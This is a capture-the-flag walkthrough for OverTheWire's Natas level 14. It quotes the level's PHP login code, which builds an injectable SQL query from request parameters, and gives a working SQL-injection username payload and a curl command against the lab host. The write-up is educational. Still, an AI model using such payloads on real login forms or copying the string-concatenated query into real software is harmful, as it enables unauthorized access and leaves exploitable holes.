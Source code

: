Level 14
--------

Okay, now we see a more traditional username & password form. Let's
check the source code to see if there are holes we can slip through.

    if(array_key_exists("username", $_REQUEST)) {
        $link = mysql_connect('localhost', 'natas14', '<censored>');
        mysql_select_db('natas14', $link);

        $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
        if(array_key_exists("debug", $_GET)) {
            echo "Executing query: $query<br>";
        }

        if(mysql_num_rows(mysql_query($query, $link)) > 0) {
                echo "Successful login! The password for natas15 is <censored><br>";
        } else {
                echo "Access denied!<br>";
        }
        mysql_close($link);
    } else {

Okay, this is one of the most common errors: SQL injection. You should never
write code like this because the attacker controls the value of `$_REQUEST["username"]`
and `$_REQUEST["password"]`. We can use that to make the query return more than
zero rows, which is all they check for.

Also, check out the nifty helper tool for us: set `debug` and it'll output the query
that gets executed, so you can see what you're doing a bit better.

    - debug: `1`
    - username: `natas14" or username not null;-- ` (don't forget the space after the 2nd dash, it is required in MySQL)
    - password: must be set, but pick whatever you want (`pwnd`)

    curl -u natas14:... \
        'http://natas14.natas.labs.overthewire.org/index.php?username=natas14"%20OR%20username%20IS%20NOT%20NULL;%20--%20&password=pwnd&debug=1'
    Successful login! The password for natas15 is ...
